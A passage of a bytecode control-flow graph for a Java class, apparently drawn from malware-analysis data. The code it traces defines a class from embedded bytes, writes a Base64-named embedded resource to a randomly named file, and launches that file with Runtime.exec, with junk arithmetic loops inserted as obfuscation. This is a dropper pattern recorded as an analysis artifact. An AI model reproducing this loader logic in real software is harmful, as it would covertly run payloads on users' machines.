    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r6 1";
    "inc.i $r6 1"->"goto load.i $r6";
    "ifcmpge.i push 3"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r $r6";
    "store.r $r6"->"load.r $r6";
    "load.r $r6"->"push 0";
    "push 0"->"load.r $i0";
    "load.r $i0"->"arraywrite.r";
    "arraywrite.r"->"load.r $r6";
    "load.r $r6"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r $r6";
    "load.r $r6"->"push 2";
    "staticget <sos: byte[] B$class_bytes>"
    "push 2"->"staticget <sos: byte[] B$class_bytes>";
    "staticget <sos: byte[] B$class_bytes>"->"arraywrite.r";
    "arraywrite.r"->"load.r i1";
    "load.r i1"->"load.r $r6";
    "load.r $r6"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r i1";
    "store.r i1"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r6";
    "store.i $r6"->"load.i $r6";
    "load.i $r6"->"push 876";
    "push 876"->"ifcmpge.i load.r i1";
    "ifcmpge.i load.r i1"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r6 1";
    "inc.i $r6 1"->"goto load.i $r6";
    "ifcmpge.i load.r i1"->"load.r i1";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "load.r i1"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "pop"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i i1";
    "store.i i1"->"load.i i1";
    "load.i i1"->"push 876";
    "ifcmpge.i new java.lang.StringBuilder"
    "push 876"->"ifcmpge.i new java.lang.StringBuilder";
    "ifcmpge.i new java.lang.StringBuilder"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i i1 1";
    "inc.i i1 1"->"goto load.i i1";
    "new java.lang.StringBuilder"
    "ifcmpge.i new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "load.r r0"
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "fieldget <sos: java.lang.String[] stringBig>"
    "load.r r0"->"fieldget <sos: java.lang.String[] stringBig>";
    "push 12"
    "fieldget <sos: java.lang.String[] stringBig>"->"push 12";
    "arrayread.r"
    "push 12"->"arrayread.r";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <sos: java.lang.String[] stringBig>";
    "push 30"
    "fieldget <sos: java.lang.String[] stringBig>"->"push 30";
    "push 30"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <sos: java.lang.String[] stringBig>";
    "push 32"
    "fieldget <sos: java.lang.String[] stringBig>"->"push 32";
    "push 32"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <sos: java.lang.String[] stringBig>";
    "push 33"
    "fieldget <sos: java.lang.String[] stringBig>"->"push 33";
    "push 33"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "staticget <java.io.File: java.lang.String separator>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticget <java.io.File: java.lang.String separator>";
    "staticget <java.io.File: java.lang.String separator>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"staticinvoke <java.lang.Math: double random()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>"
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>";
    "push \".\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(double)>"->"push \".\"";
    "push \".\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <sos: java.lang.String[] stringBig>";
    "push 34"
    "fieldget <sos: java.lang.String[] stringBig>"->"push 34";
    "push 34"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <sos: java.lang.String[] stringBig>";
    "push 35"
    "fieldget <sos: java.lang.String[] stringBig>"->"push 35";
    "push 35"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <sos: java.lang.String[] stringBig>";
    "push 36"
    "fieldget <sos: java.lang.String[] stringBig>"->"push 36";
    "push 36"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r i1";
    "store.r i1"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r6";
    "store.i $r6"->"load.i $r6";
    "load.i $r6"->"push 876";
    "ifcmpge.i load.r r0"
    "push 876"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r6 1";
    "inc.i $r6 1"->"goto load.i $r6";
    "ifcmpge.i load.r r0"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"L3JvbGE=\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"L3JvbGE=\"";
    "push \"L3JvbGE=\""->"staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>"->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r $r6";
    "store.r $r6"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "store.i r0"
    "push 0"->"store.i r0";
    "load.i r0"
    "store.i r0"->"load.i r0";
    "load.i r0"->"push 876";
    "ifcmpge.i new java.io.FileOutputStream"
    "push 876"->"ifcmpge.i new java.io.FileOutputStream";
    "ifcmpge.i new java.io.FileOutputStream"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "inc.i r0 1"
    "virtualinvoke <DataSet: void add(double)>"->"inc.i r0 1";
    "goto load.i r0"
    "inc.i r0 1"->"goto load.i r0";
    "new java.io.FileOutputStream"
    "ifcmpge.i new java.io.FileOutputStream"->"new java.io.FileOutputStream";
    "new java.io.FileOutputStream"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r i1";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "load.r i1"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "push 4096"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"push 4096";
    "push 4096"->"newarray";
    "newarray"->"store.r r1";
    "store.r r1"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "store.i $i0"
    "push 0"->"store.i $i0";
    "load.i $i0"
    "store.i $i0"->"load.i $i0";
    "load.i $i0"->"push 876";
    "ifcmpge.i load.r $r6"
    "push 876"->"ifcmpge.i load.r $r6";
    "ifcmpge.i load.r $r6"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "inc.i $i0 1"
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $i0 1";
    "goto load.i $i0"
    "inc.i $i0 1"->"goto load.i $i0";
    "ifcmpge.i load.r $r6"->"load.r $r6";
    "load.r $r6"->"load.r r1";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r1"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i $i0";
    "store.i $i0"->"load.i $i0";
    "push -1"
    "load.i $i0"->"push -1";
    "ifcmpeq.i load.r $r2"
    "push -1"->"ifcmpeq.i load.r $r2";
    "ifcmpeq.i load.r $r2"->"load.r r0";
    "load.r r0"->"load.r r1";
    "load.r r1"->"push 0";
    "push 0"->"load.i $i0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i0"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r $r6"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r $r6";
    "ifcmpeq.i load.r $r2"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r6";
    "store.i $r6"->"load.i $r6";
    "load.i $r6"->"push 876";
    "push 876"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r6 1";
    "inc.i $r6 1"->"goto load.i $r6";
    "ifcmpge.i load.r r0"->"load.r r0";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r r0"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r i1";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "load.r i1"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto return"
    "pop"->"goto return";
}

